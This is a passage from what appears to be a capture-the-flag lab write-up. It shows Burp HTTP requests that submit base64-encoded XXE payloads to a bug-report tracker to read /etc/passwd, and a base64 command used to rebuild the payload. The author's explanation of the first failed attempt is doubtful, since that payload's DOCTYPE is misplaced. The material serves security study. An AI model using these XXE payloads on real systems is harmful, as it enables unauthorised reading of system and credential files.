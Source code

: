 ```HTTP

Referer: http://bountyh/log_submit.php

Priority: u=0



data=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPjxidWdyZXBvcnQ%2BPHRpdGxlPndlPC90aXRsZT48Y3dlPndlPC9jd2U%2BPGN2c3M%2Bd2U8L2N2c3M%2BPHJld2FyZD53ZTwvcmV3YXJkPjwhRE9DVFlQRSBidWdyZXBvcnQgWzwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2BXT48eHhlPiZ4eGU7PC94eGU%2BPC9idWdyZXBvcnQ%2BCg%3D%3D
```
Interestingly, our exploit was not successful. We received the following response. We got a `HTTP OK` response, but it looks like our XML might've not been encoded correctly. Lets take another look at it and see if we can find any issues.

```XML
PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPjxidWdyZXBvcnQ%2BPHRpdGxlPndlPC90aXRsZT48Y3dlPndlPC9jd2U%2BPGN2c3M%2Bd2U8L2N2c3M%2BPHJld2FyZD53ZTwvcmV3YXJkPjwhRE9DVFlQRSBidWdyZXBvcnQgWzwhRU5USVRZIHh4ZSBTWVNURU0gImZpbGU6Ly8vZXRjL3Bhc3N3ZCI%2BXT48eHhlPiZ4eGU7PC94eGU%2BPC9idWdyZXBvcnQ%2BCg%3D%3D
```
Hmm, it looks like we might've base64 encoded the xml incorrectly. Instead of using `echo` to base64 encode the XML, we should've used `cat` to read the file directly, and pipe the `base64` command to it. Lets try that again.

```bash
cat f.xml | base64 -w 0
```
Then URL encode the output again.

Lets try submitting the payload again with the new base64 encoded XML with burp.

```HTTP
POST /tracker_diRbPr00f314.php HTTP/1.1

Host: bountyh

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

X-Requested-With: XMLHttpRequest

Content-Length: 297

Origin: http://bountyh

Connection: keep-alive

Referer: http://bountyh/log_submit.php

Priority: u=0



data=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iSVNPLTg4NTktMSI%2FPgo8IURPQ1RZUEUgZGF0YSBbCjwhRU5USVRZIGZpbGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiPiBdPgo8YnVncmVwb3J0Pgo8dGl0bGU%2BdGVzdDwvdGl0bGU%2BCiA8Y3dlPnRlc3Q8L2N3ZT4KIDxjdnNzPnRlc3Q8L2N2c3M%2BCiA8cmV3YXJkPiZmaWxlOzwvcmV3YXJkPgo8L2J1Z3JlcG9ydD4K
```